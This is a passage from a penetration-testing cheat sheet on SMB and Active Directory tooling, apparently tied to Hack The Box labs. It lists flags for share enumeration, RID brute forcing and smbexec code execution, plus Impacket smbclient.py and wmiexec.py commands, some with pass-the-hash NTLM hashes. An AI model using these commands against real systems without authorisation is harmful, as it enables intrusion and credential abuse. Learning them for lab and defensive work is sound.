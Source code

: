 Useful parameters:
```bash
--local-auth --shares    # enumerate shares
--local-auth             # use local accounts rather than domain auth
--lusers                 # list logged in users
-x 'net user Administrator /domain' --exec-method smbexec    # code execution via smbexec
--pass-pol               # list password policy
--rid-brute              # RID bruteforcing
```



## Impacket 

On Kali you can install impacket with `sudo apt install impacket`. 

* Github: https://github.com/SecureAuthCorp/impacket

### Impacket: smbclient.py

Impacket comes with an smbclient as well. 

It offers more config options than the vanilla smbclient and is easier scriptable. It is particularly useful for Active Directory exploitation. 

```bash
smbclient.py [domain]/[user]@[host]
smbclient.py [domain]/[user]@[host] -dc-ip [domain-controller]
smbclient.py htb/svc-alfresco@FOREST -dc-ip 10.10.10.161
```

With password:
```bash
smbclient.py [domain]/[user]:[password]@[host]
```

Using ntlm auth:

```bash
smbclient.py [domain]/[user]@[host]
smbclient.py htb/someuser@somehost -hashes aad3b435b51404eeaad3b435b51404ee:0CB6948805F797BF2A82807973B89537
```

### Impacket: wmiexec.py

Code execution using WMI endpoint.

```bash
wmiexec.py [domain]/[user]:[password]@[host]
wmiexec.py htb/someuser@somehost -hashes aad3b435b51404eeaad3b435b51404ee:0CB6948805F797BF2A82807973B89537
```

### Impacket: dcomexec.py

Code execution using DCOM.
